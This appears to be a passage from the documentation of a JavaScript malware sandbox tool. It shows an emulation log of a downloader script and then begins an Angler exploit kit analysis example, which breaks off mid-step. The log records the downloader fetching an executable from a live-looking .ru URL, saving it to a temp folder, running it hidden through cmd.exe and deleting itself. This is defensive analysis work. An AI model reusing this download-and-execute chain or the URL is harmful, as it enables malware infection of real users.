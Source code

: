     30 Sep 01:02:11 - Created: ADODB_Stream[14]
    30 Sep 01:02:11 - Scripting.FileSystemObject[11].GetSpecialFolder(2) => TemporaryFolder/
    30 Sep 01:02:11 - Scripting.FileSystemObject[11].GetTempName() => TempFile[15]
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].open(GET,http://girlx.tornadodating.ru/js/boxun4.bin,0)
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13] string true
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].async = 'false'
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].async.get() => false
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].send(undefined)
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].onreadystatechange(), readyState = 4 length: 196608 status: 200
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13] statusText = null
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].responseBody = 'MZ?@?!?L?!This program cannot be ... (truncated)'
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].status = '200'
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].onreadystatechange() undefined
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].send(undefined) finished
    30 Sep 01:02:15 - ADODB_Stream[14].type = '1'
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].ResponseBody.get() => MZ?@?!?L?!This program cannot be ... (truncated)
    30 Sep 01:02:15 - ADODB_Stream[14].Open()
    30 Sep 01:02:15 - ADODB_Stream[14].content = 'MZ?@?!?L?!This program cannot be ... (truncated)'
    30 Sep 01:02:15 - ADODB_Stream[14].Write(str) - 196608 bytes
    30 Sep 01:02:15 - ADODB_Stream[14].size = '196608'
    30 Sep 01:02:15 - ADODB_Stream[14].SaveToFile(TemporaryFolder/TempFile[15], undefined)
    30 Sep 01:02:15 - ADODB_Stream[14].content.get() => MZ?@?!?L?!This program cannot be ... (truncated)
    30 Sep 01:02:15 - ADODB_Stream[14].Close()
    30 Sep 01:02:15 - WScript.Shell[12].Run(cmd.exe /c TemporaryFolder/TempFile[15], 0, undefined)
    30 Sep 01:02:15 - Scripting.FileSystemObject[11].DeleteFile(script_full_name.js)
    30 Sep 01:02:15 - ==> Cleaning up sandbox.
    30 Sep 01:02:15 - ==> Script execution finished, dumping sandbox environment to a file.
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].ResponseBody.get() => MZ?@?!?L?!This program cannot be ... (truncated)
    30 Sep 01:02:16 - Saving: output/TemporaryFolder_TempFile[15]
    30 Sep 01:02:16 - Generated file saved
    30 Sep 01:02:16 - The sandbox context has been  saved to: sandbox_dump_after.json

Behaviour is obvious from the log. Payload has been extracted into the output/TemporaryFolder_TempFile[15] file. 

Log file: [malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.out](malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.out)


### Example: Analysing Angler EK ###

Download and extract Angler EK from a pcap file at [ANGLER EK SENDS CRYPTOWALL](http://www.malware-traffic-analysis.net/2015/12/21/index.html) into a [malware/angler/angler_full.html](malware/angler/angler_full.html).

Strip the non Angler part and save as [malware/angler/angler_stripped.html](malware/angler/angler_stripped.html).

Remove `<script>` tags and convert required `<div>` tags into:
    